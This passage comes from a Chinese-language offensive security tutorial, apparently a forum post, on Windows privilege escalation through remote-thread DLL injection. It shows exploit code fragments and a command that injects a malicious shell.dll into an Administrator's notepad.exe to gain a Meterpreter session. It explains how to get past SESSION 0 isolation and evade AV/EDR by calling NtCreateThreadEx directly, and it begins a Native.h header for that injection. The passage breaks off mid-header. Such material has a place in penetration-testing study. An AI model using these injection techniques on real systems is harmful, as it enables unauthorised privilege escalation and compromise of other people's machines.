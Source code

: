 ```c++
    {
        if (ExploitSeDebugPrivilege(lpProcessName, lpDllFileName))
        {
            return 1;
        }
    }
}
```

将编译并生成好的 SeBackupPrivilege.exe 上传到目标主机，执行以下命令，将恶意的 DLL 注入 Administrator 用户的 notepad.exe 进程中，如下图所示，成功获得 Administrator 用户权限的 Meterpreter。

```powershell
SeDebugPrivilege.exe -p "notepad.exe" -m "C:\Users\Marcus\shell.dll"
```

![image-20230214231049280](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-f2010cfe27b856537ce798390b1b9fed5e98a221.png)

到目前为止，我们演示的远程线程注入都是使用 Windows 标准 API 进行的，其虽然易于使用，但是可被大多数 AV/EDR 产品检测到。此外，在测试中可能会发现，我们不能成功注入到一些系统服务进程。这是因为系统存在 SESSION 0 隔离的安全机制，传统的远程注入 DLL 方法并不能突破 SESSION 0 隔离。

也为了突破 SESSION 0 隔离，我们需要使用 Windows 系统中底层的 API，也就是 Native APIs。

> 为了方便与操作系统进行交互，程序员一般使用微软推荐的标准 API（Win32 API）。标准 Windows APIs 是在 Native APIs 的基础上包装产生的。Native APIs 也被称为 Undocumented APIs，因为你通常找不到它们的官方文档。Native APIs 或 Undocumented APIs 都可以在 ntdll.dll 库中调用，我们可以通过查看其他人的代码或者别人总结的非官方文档，来查看它们的使用方法。

由于 Windows 在内核 6.0 以后引入了会话隔离机制，它在创建一个进程之后并不会立即运行，而是先挂起进程，在查看要运行的进程所在的会话层之后再决定是否恢复进程运行。经过逆向分析，可以发现 `CreateRemoteThread()` 函数内部在调用了 `NtCreateThreadEx()` 函数来创建远程线程，并且 `NtCreateThreadEx()` 的第七个参数 `CreateThreadFlags` 的值被设为了 1，他会导致线程创建完成后一直挂起无法恢复运行，这就是为什么在注入系统进程时会失败。

所以，要想成功注入系统服务进程，就需要直接调用 `NtCreateThreadEx()` 函数，并将第七个参数的值改为 0，这样线程创建完成后就会恢复运行，成功注入。

如下创建一个 Native.h，将 ntdll.dll 模块加载到我们的程序中，并定义与我们要使用的原始函数格式完全相同的函数指针，使用这些函数的基地址来初始化这些指针。对于远程线程注入来说，我们需要的函数有 `NtOpenProcess()`、`NtAllocateVirtualMemory()`、`NtWriteVirtualMemory()`、`NtCreateThreadEx()`，如下所示。

- Native.h

```c++
#pragma once

#include <Windows.h>

#define STATUS_SUCCESS 0

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

#define InitializeObjectAttributes( i, o, a, r, s ) {    \
      (i)->Length = sizeof( OBJECT_ATTRIBUTES );         \
      (i)->RootDirectory = r;                            \
      (i)->Attributes = a;                               \
      (i)->ObjectName = o;                               \
      (i)->SecurityDescriptor = s;                       \
      (i)->SecurityQualityOfService = NULL;              \
}

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG           Length;
    HANDLE          RootDirectory;
```